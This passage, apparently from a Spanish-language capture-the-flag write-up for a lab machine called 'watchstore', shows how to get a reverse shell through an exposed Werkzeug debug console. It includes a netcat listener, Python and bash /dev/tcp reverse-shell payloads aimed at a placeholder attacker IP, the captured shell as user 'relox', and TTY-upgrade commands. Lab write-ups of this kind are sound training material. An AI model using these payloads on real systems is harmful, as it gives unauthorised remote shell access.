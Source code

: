 Por consiguiente, podremos mandarnos una **Reverse Shell**.

<br>

<h3 id="RevShell1">Obteniendo Reverse Shell desde Consola de Python de Werkzeug</h3>

Inicia un listener con **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
```

Desde la consola:

* Ejecuta los siguientes comandos uno por uno para que funcione:
```bash
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("Tu_IP",443));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2); import pty; pty.spawn("bash");
```

* Puedes ocupar esta forma más sencilla donde solo importamos la **librería OS** y ejecutamos la **Reverse Shell**:
```bash
import os;
os.system('bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"')
```

Revisa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.80] 58402
bash: no se puede establecer el grupo de proceso de terminal (483): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
relox@thehackerslabs-watchstore:~/watchstore$ whoami
whoami
relox
```
Estamos dentro y somos el **usuario relox**.

Obtengamos una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```
